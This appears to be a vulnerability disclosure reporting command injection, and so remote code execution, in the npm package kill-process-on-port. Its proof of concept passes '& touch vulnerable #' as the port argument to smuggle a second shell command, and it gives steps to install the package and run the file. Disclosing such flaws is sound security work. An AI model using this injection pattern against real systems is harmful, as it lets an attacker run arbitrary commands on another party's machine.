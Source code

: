 # Description

Remote Code Execution (RCE) in kill-process-on-port

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var {killProcessOnPort} = require("kill-process-on-port");
killProcessOnPort("& touch vulnerable #");
```

2. Execute the following commands in terminal:

```
npm i kill-process-on-port # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output using ls command before and after the execution.
